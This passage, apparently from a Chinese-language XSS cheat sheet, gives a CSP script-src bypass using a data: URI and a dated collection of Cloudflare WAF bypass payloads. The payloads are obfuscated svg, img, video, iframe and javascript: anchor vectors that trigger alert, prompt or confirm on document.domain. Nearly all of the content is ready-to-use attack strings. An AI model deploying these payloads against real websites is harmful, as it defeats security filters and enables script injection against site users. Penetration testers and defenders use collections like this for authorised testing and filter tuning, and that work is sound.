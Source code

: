 适用于CSP，如： `script-src 'self' data:` 参考文章 [mozilla documentation](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src).

```javascript
<script src="data:,alert(1)">/</script>
```


## 常见WAF绕过

### Cloudflare WAF Bypasses by [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

#### 记录时间：2021 年 1 月 25 日

```html
<svg/onrandom=random onload=confirm(1)>
<video onnull=null onmouseover=confirm(1)>
```

#### 记录时间：2020 年 4 月 21 日

```html
<svg/OnLoad="`${prompt``}`">
```

#### 记录时间：2019 年 8 月 22 日

```html
<svg/onload=%26nbsp;alert`bohdan`+
```

#### 记录时间：2019 年 6 月 5 日

```html
1'"><img/src/onerror=.1|alert``>
```

#### 记录时间：2019 年 6 月 3 日

```html
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
```

### Cloudflare WAF Bypass - 2019 年 3 月 22 日 (by @RakeshMane10)

```
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
```

### Cloudflare WAF Bypass - 2018 年 2 月 27 日

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```
